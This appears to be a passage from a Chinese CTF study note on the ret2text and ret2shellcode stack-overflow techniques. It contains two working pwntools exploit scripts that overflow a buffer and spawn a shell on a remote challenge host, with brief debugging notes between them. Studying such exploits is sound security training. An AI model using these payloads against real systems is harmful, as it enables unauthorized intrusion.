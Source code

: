 	```python
	from pwn import *
	
	# sh = process(./ret2text)
	sh = remote("47.106.212.155",10001)
	binsh = 0x0804863a
	payload = 112*'A' + p32(binsh)
	sh.sendline(payload)
	sh.interactive()
	```

	![img](https://my-md-1253484710.file.myqcloud.com/20190412181108.png)



### ret2shellcode

[ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

- 运行时shellcode所在区域应具有可执行权限

![img](https://my-md-1253484710.file.myqcloud.com/20190407123948.png)

![img](https://my-md-1253484710.file.myqcloud.com/20190407132349.png)

strncpy函数将gets的内容复制到buf2 buf存放到.bss段的[0x804a080:4]位置。

调试看所在.bss段是否有执行的权限。

![img](https://my-md-1253484710.file.myqcloud.com/20190407132843.png)

![img](https://my-md-1253484710.file.myqcloud.com/20190407133456.png)

payload:

```python
#coding:utf-8
from pwn import *
# context(log_level = 'debug',arch ='i386',os = 'linux' )
# sh = process(./ret2shellcode)
sh = remote("47.106.212.155",10002)
## 获得system("bin/sh")的asm
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
# sh.sendline(shellcode+"\x90"*(112-len(shellcode))+p32(buf2_addr))
sh.sendline(shellcode.ljust(112,"A")+p32(buf2_addr))
sh.interactive()
```

![img](https://my-md-1253484710.file.myqcloud.com/20190407134402.png)

练习题：sniperoj-pwn100-shellcode-x86-64
